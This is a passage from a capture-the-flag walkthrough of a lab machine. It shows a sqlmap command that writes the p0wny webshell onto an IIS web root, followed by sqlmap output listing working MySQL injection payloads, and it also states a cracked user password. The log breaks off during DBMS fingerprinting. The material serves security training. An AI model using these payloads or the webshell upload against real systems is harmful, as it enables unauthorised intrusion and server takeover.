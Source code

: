 Got manager password. Now, with the help of https://crackstation.net/, we discover that hector password is "l33th4x0rhector". There's no lucky with the root one.

Let's upload a webshell with sqlmap. I'm going to use "p0wny-shell.php" for this, and I supposse they left the default root for IIS (https://stackoverflow.com/questions/10779488/cannot-verify-access-to-path-c-inetpub-wwwroot-when-adding-a-virtual-direc)

```
kali@kali:~$ sqlmap --proxy=http://127.0.0.1:8080 --data=productName=16 -u http://10.10.10.167/search_products.php --file-dest="/Inetpub/wwwroot/p0wny.php" --file-write="/home/kali/CTFs/library/WebShells/p0wny-shell-master/shell.php"
        ___
       __H__                                                                                                                                               
 ___ ___[(]_____ ___ ___  {1.4#stable}                                                                                                                     
|_ -| . ["]     | .'| . |                                                                                                                                  
|___|_  [,]_|_|_|__,|  _|                                                                                                                                  
      |_|V...       |_|   http://sqlmap.org                                                                                                                

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 18:17:01 /2020-04-24/

[18:17:01] [INFO] resuming back-end DBMS 'mysql' 
[18:17:01] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: productName (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (MySQL comment)
    Payload: productName=-2040' OR 1557=1557#

    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: productName=16' AND (SELECT 4997 FROM(SELECT COUNT(*),CONCAT(0x7176766a71,(SELECT (ELT(4997=4997,1))),0x716b7a7671,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- sxcB

    Type: stacked queries
    Title: MySQL >= 5.0.12 stacked queries (comment)
    Payload: productName=16';SELECT SLEEP(5)#

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: productName=16' AND (SELECT 4567 FROM (SELECT(SLEEP(5)))hRhs)-- bOGr

    Type: UNION query
    Title: MySQL UNION query (NULL) - 6 columns
    Payload: productName=16' UNION ALL SELECT NULL,NULL,NULL,CONCAT(0x7176766a71,0x71686242474a6c66494c6e4d5564417659566e4867534758516964765773466261785943534e7864,0x716b7a7671),NULL,NULL#
---
[18:17:02] [INFO] the back-end DBMS is MySQL
back-end DBMS: MySQL >= 5.0
[18:17:02] [INFO] fingerprinting the back-end DBMS operating system
[18:17:02] [INFO] the back-end DBMS operating system is Windows
[18:17:02] [WARNING] potential permission problems detected ('Access denied')
[18:17:16] [WARNING] time-based comparison requires larger statistical model, please wait.............................. (done)                            
```